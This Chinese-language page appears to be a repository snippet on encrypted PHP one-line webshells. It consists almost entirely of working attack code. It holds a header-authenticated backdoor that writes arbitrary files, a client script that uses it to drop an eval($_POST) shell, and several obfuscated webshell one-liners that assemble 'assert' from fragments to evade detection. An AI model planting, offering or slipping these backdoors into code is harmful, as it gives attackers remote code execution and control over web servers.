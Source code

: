 toby57 解析加密 PHP 一句话木马
---------------------

此段后门使用方法会与其它方法不太一样，具体看下面  
Client：

```
<?php
if(crypt($_SERVER['HTTP_H0ST'],51)=='514zR17F8j0q6'){@file_put_contents($_SERVER['HTTP_X'],$_SERVER['HTTP_Y']);
header("Location: ./".$_SERVER['HTTP_X']);};
?>
```

Server:

```
<?php
$fp = fsockopen("127.0.0.1",80,$errno,$errstr,5);
if (!$fp){
echo('fp fail');
}
$out = "GET /php_muma/client.php HTTP/1.1\r\n";
$out .= "Content-Type: application/x-www-form-urlencoded\r\n";
$out .= "User-Agent: MSIE\r\n";
$out .= "Host: 127.0.0.1\r\n";
$out .= "H0ST: qiushui51a\r\n";
$out .= "X: ../shell.php \r\n";
$out .= "Y: <?php eval(\$_POST[shell]);?>\r\n";
$out .= "Connection: close\r\n\r\n";
fwrite($fp,$out);
while(!feof($fp)){
$resp_str="";
$resp_str .= fgets($fp,512);//返回值放入$resp_str
}
fclose($fp);
echo($resp_str);//处理返回值.
?>
```

对服务端与客户端指令对比，如一致则执行后门指令。

几个 President 分享的 PHP 一句话
------------------------

```
<?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["sz"]); ?>

<?php $lang = (string)key($_POST);$lang($_POST['sz']); ?>

<?php $k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);?>

<?php $a = "a"."s"."s"."e"."r"."t"; $a($_POST["sz"]); ?>

<?php
@$_="s"."s"./*-/*-*/"e"./*-/*-*/"r";
@$_=/*-/*-*/"a"./*-/*-*/$_./*-/*-*/"t";
@$_/*-/*-*/($/*-/*-*/{"_P"./*-/*-*/"OS"./*-/*-*/"T"}
[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]);?>
//上面这个密码-7
```

